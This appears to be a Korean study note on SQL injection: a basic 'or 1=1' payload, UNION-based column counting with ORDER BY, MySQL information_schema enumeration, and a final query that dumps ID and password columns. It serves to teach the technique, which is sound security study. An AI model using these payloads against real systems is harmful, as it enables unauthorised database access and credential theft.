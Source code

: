 ```yaml
---
title: "SQL 인젝션 정리"
category:
  - webhacking
tag:
  - webhacking
  - sql
  - sql injection
toc: true
toc_sticky: true
---
```

# 기본

가장 기본이 되는 sql injection
필터링이 없을 때 사용 가능하다.
~~~
?id=1 or 1=1#
~~~

# UNION을 사용한 DB 구조 파악

UNION을 이용하기 위해서는 원래 SELECT문의 칼럼 개수와 UNION 뒤에 입력할 SELECT문의 칼럼 개수가 같아야 한다. 따라서 ORDER BY 구문을 사용해서 원래 SELECT문의 칼럼 개수를 먼저 알아야 한다.
ORDER BY 구문 : 지정된 칼럼을 기준으로 결과를 정렬해주는 키워드, 전체 칼럼 개수보다 큰 값을 입력하면 오류가 발생한다.

1) 1' ORDER BY 1#, 1' ORDER BY 2#, 1' ORDER BY 3# 등 에러가 날 때까지 숫자를 입력해본다.
2)칼럼의 개수를 2개라고 가정할 때, UNION을 사용해 SQL인젝션을 시도해 볼 수 있다.
1' UNION SELECT 1,3#
1' UNION SELECT 'a','b'#

여기까지가 UNION을 사용한 SQL Injection의 원리이다.

## 테이블 정보 수집
MySQL에는 Information_schema라는 데이터베이스가 존재하는데, 이곳에선 MySQL 서버가 운영하는 모든 데이터베이스에 대한 정보(데이터베이스 이름, 테이블, 칼럼 정보 등)를 관리한다. 따라서 SQL 인젝션을 시도할 때, 공격 대상에 대한 정보를 수집하기 위해서 반드시 조회해야 하는 DB이다. Information_schema에는 여러 테이블이 존재하는데, 주로 SQL 인젝션에서 유용하게 사용될 정보들이 저장된 테이블은 schemata, tables, columns이다.

1) 먼저 schemata 테이블에 접근해서 DB명을 찾는다.
' UNION SELECT schema_name, 2 from information_schema.schemata#
2) DB명을 활용해서 table명을 찾는다.
' UNION SELECT table_name, 2 from information_schema.tables WHERE table_schema='[DB명]'#
3) table명을 활용해서 column명을 찾는다.
' UNION SELECT column_name, 2 from information_schema.columns WHERE table_schema='[DB명]' and table_name='[table명]'#
4) column들 중에 ID,PW 등의 중요한 칼럼의 데이터를 수집한다.
' UNION SELECT [ID 컬럼명], [PW 컬럼명] FROM [table명]#



